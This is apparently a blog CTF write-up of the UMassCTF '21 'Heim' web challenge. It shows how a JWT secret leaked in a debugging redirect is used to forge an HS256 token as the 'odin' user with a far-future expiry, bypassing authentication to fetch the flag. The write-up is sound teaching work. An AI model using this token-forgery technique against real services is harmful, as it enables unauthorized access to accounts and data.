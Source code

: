 ```yaml
---
layout: post
title: Heim - UMassCTF '21
date: 2021-03-29T01:30:00
author: samiko
categories:
- ctf
- write-ups
header_img: ''
description: 'Only those who BEARER a token may enter! A web exploitation category challenge on intercepting and forging JSON Web Token from a debugging endpoint to bypass authentication.'

---
```

## The Heim

Upon navigating to the given URL, we're met with a login form which asks the user for a "name", claiming that "only those who BEARER a token may enter".

![https://i.imgur.com/96m81yH.png](https://i.imgur.com/96m81yH.png)

After entering a name and hitting "Enter", we are then redirected to the `/auth/authorised` page containing our access token:

![https://i.imgur.com/s2PtrcI.png](https://i.imgur.com/s2PtrcI.png)

This likely suggests that we're dealing with some type of bearer token authentication. Bearer tokens allow requests to authenticate by using a cryptic string generated and encrypted by the server, such as a JSON Web Token, which looks something akin to this:

![https://i.imgur.com/IVE3srk.png](https://i.imgur.com/IVE3srk.png)

This token is then included in the HTTP header, in the format of:

```html
Authorization: Bearer <JWT>
```

## Intercepting requests with Burp Suite

Let's intercept the outbound POST request made to `/auth` with Burp Suite's proxy feature, and forward the request to the repeater with `Ctrl-R` to try and figure out what is happening behind the scenes:

![https://i.imgur.com/EZ3LsiC.png](https://i.imgur.com/EZ3LsiC.png)

We see that the browser first makes a POST request to `/auth` with the form data, and is then redirected to the URL:

`/auth?access_token=<JWT>&jwt_secret_key=arottenbranchwillbefoundineverytree`

Leaked at the end of the redirect URL is the `jwt_secret_key`, which is used for encrypting JSON Web Tokens:

`arottenbranchwillbefoundineverytree`

While looking for more API endpoints on the website by trying related keywords, we stumbled upon `/heim`, which returned:

```json
{
  "msg": "Missing Authorization Header"
}
```

This means that the web server is expecting a Bearer token in the HTTP header, so let's add that to our request in Burp Suite's repeater:

![https://i.imgur.com/HR6kSKQ.png](https://i.imgur.com/HR6kSKQ.png)

We received a massive message encoded in base64, let's decode it:

`$ echo "ewogICAgIm...AgIH0KfQ==" | base64 -d`

```json
{
  "api": {
      "v1": {
          "/auth": {
              "get": {
                  "summary": "Debugging method for authorization post",
                  "security": "None",
                  "parameters": {
                      "access_token": {
                          "required": true,
                          "description": "Access token from recently authorized Viking",
                          "in": "path",
                      },
                      "jwt_secret_key": {
                          "required": false,
                          "description": "Debugging - should be removed in prod Heim",
                          "in": "path"
                      }
                  }
              },
              "post": {
                  "summary": "Authorize yourself as a Viking",
                  "security": "None",
                  "parameters": {
                      "username": {
                          "required": true,
                          "description": "Your Viking name",
                          "in": "body",
                          "content": "multipart/x-www-form-urlencoded"
                      }
                  }
              }
          },
          "/heim": {
              "get": {
                  "summary": "List the endpoints available to named Vikings",
                  "security": "BearerAuth"
              }
          },
          "/flag": {
              "get": {
                  "summary": "Retrieve the flag",
                  "security": "BearerAuth"
              }
          }
      }
  }
}
```

Nice! We have obtained a list of all available endpoints and now know the flag is located at `/flag`, and that the GET method for `/auth` was originally meant to be a debugging endpoint, explaining why `jwt_secret_key` was leaked in the redirect URL.

Making a GET request to `/flag` with our Bearer token returns:

```json
{
  "msg": "You are not worthy. Only the AllFather Odin may view the flag"
}
```

Seems like only Odin is worthy enough to view the flag! Also, trying to submit "odin" as the name in the login form returns:

```json
{
  "error": "You are not wise enough to be Odin"
}
```

Though, since we can obtain a sample access token and are in possession of the secret key, we can forge our own tokens to authenticate as the Odin user.

## Forging Odin's token

Using [CyberChef](https://gchq.github.io/CyberChef/) tool, we can easily read the payload of our own JWT string with the "JWT decode" function:

![https://i.imgur.com/gRvcmbl.png](https://i.imgur.com/gRvcmbl.png)

We see that the JWT payload contains the following data:

```json
{
    "fresh": false,
    "iat": 1617017482,
    "jti": "380b9f5c-fb31-479e-a189-59e2c8040453",
    "nbf": 1617017482,
    "type": "access",
    "sub": "samiko",
    "exp": 1617018382
}
```

Of all variables, `sub` (subject) and `exp` (expiration time) are the ones that appear most interesting to us, since we want to forge a token for Odin (that never expires!), so let's modify the payload to the following:

```json
{
    "fresh": false,
    "iat": 1617017482,
    "jti": "380b9f5c-fb31-479e-a189-59e2c8040453",
    "nbf": 1617017482,
    "type": "access",
    "sub": "odin",
    "exp": 9999999999
}
```

Using the "JWT Sign" function with the leaked `jwt_secret_key` and HS256 as parameters, we get the token:

![https://i.imgur.com/AEjoHH4.png](https://i.imgur.com/AEjoHH4.png)

Using the forged token in the HTTP header as a Bearer token, we make a GET request to `/flag`:

![https://i.imgur.com/Tq2jaX7.png](https://i.imgur.com/Tq2jaX7.png)

Voila! We got the flag:

```json
UMASS{liveheim_laughheim_loveheim}
```

## Resources

1. [https://swagger.io/docs/specification/authentication/bearer-authentication/](https://swagger.io/docs/specification/authentication/bearer-authentication/)
2. [https://research.securitum.com/jwt-json-web-token-security/](https://research.securitum.com/jwt-json-web-token-security/)
3. [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/)